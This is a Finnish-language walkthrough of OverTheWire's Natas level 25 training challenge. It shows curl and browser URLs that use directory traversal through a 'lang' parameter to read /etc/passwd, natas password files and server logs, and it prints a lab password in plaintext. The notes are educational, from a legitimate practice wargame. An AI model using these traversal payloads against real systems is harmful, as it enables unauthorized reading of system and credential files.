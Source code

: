 
Toinen esim. kokeilla directory traversal hyökkäystä:

`curl "http://natas25.natas.labs.overthewire.org/?lang=../../../../etc/passwd" \
  --user natas25:<salasana>`


Tai lukea natas salasanoja:
`curl "http://natas25.natas.labs.overthewire.org/?lang=../../../../natas_webpass/natas25" \
  --user natas25:<salasana>`


**URL kautta:**

Voit testata molempia hyökkäystapoja myös suoraan selaimen URL-riviltä, aivan kuten curl tekee komentoriviltä

🌐 1. Lang-parametrin kautta tiedoston lukeminen selaimella:
`http://natas25.natas.labs.overthewire.org/?lang=.../logs/natas25_7cbgukbicl92os5d1a9icj81l5.log`

Kirjautuneena selaimessa, evästeet kulkevat automaattisesti → ei tarvitse syöttää käyttäjää/salasanaa manuaalisesti

🔐 2. Sama idea kuin curl, mutta selaimen kautta

curl vain tekee saman HTTP-pyynnön komentoriviltä — mutta URL:in rakenne on täsmälleen sama kuin selainkäytössä.

ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws

```
curl "http://natas25.natas.labs.overthewire.org/?lang=.../logs/natas25_<abd_value>.log" \
  --user natas25:ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws \
  --cookie "PHPSESSID=<abcd_value>"
```

`http://natas25.natas.labs.overthewire.org/?lang=.../logs/natas25_abcd1234.log`


Tässä testailin normaalisti se polku, että muutama piste piste `../` sitten etc - joka antoi oletuksena tämä etusivun Quote runoilu tekstinsä.
![alt text](./kuvat-level22-28/natas25-2.png)
